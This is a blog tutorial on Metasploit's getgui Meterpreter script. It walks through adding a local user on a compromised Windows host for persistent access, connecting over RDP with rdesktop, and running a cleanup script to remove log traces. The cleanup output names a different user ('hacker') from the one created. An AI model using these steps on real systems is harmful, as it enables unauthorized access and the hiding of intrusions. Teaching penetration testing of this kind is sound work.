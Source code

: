 ```yaml
---
draft: false
title: MSF Remote Desktop Module
date: 2017-05-05T13:30:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: In this article, we will see how we can create a user in the system using the getgui command and then connect to this computer with the rdesktop command.
url: /msf-remote-desktop-module/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
linkTitle: MSF Remote Desktop
translationKey: msfremotedesktop
weight: 1
---
```


When you open a shell with Meterpreter in Metasploit Framework, one of the operations that can be done is to implement a remote desktop connection. The `getgui` command is very useful for this.

In this article, we will see how we can create a user in the system using the `getgui` command and then connect to this computer with the `rdesktop` command.

We assume that you have opened the Meterpreter shell on the target computer. Now we need the username and password required to establish a visual connection using the getgui command. When you create such a username and password, you will have ensured permanence.

First, let's look at the `getgui` help titles.

```bash
meterpreter > run getgui -h
Windows Remote Desktop Enabler Meterpreter Script
Usage: getgui -u  -p 
Or:    getgui -e

OPTIONS:

    -e   Enable RDP only.
    -f   Forward RDP Connection.
    -h   Help menu.
    -l   The language switch
         Possible Options: 'de_DE', 'en_EN' / default is: 'en_EN'
    -p   The Password of the user
```

## Adding a User

Generally, -u is used to specify the username, -p the password. When you use the getgui command in a similar way to the example below, you add a new user to the system.

```bash
meterpreter > run getgui -u loneferret -p password
> Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
> Carlos Perez carlos_perez@darkoperator.com
> Language detection started
>   Language detected: en_US
> Setting user account for logon
>   Adding User: loneferret with Password: password
>   Adding User: loneferret to local group ''
>   Adding User: loneferret to local group ''
> You can now login with the created user
> For cleanup use command: run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
meterpreter >
```

## Remote Desktop Connection

Now the user is created. You can connect to the remote desktop using this username and password from another computer on the same network.

```bash
root@kali:~#: rdesktop -u loneferret -p password 192.168.101.108
```

## Log Cleaning

The more you play around with the target system, the more likely you are to be recorded in the log records. For this reason, you should avoid unauthorized actions as much as possible or be content with intervening where necessary.

You may want to clean the log records of the user and session information you created with getgui. The following command example will be useful for this. You can check the most up-to-date version of the /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc file used in the example from the same folder.

```bash
meterpreter > run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
> Running Command List ...
>   Running command execute -H -f cmd.exe -a "/c net user hacker /delete"
Process 288 created.
meterpreter >
```

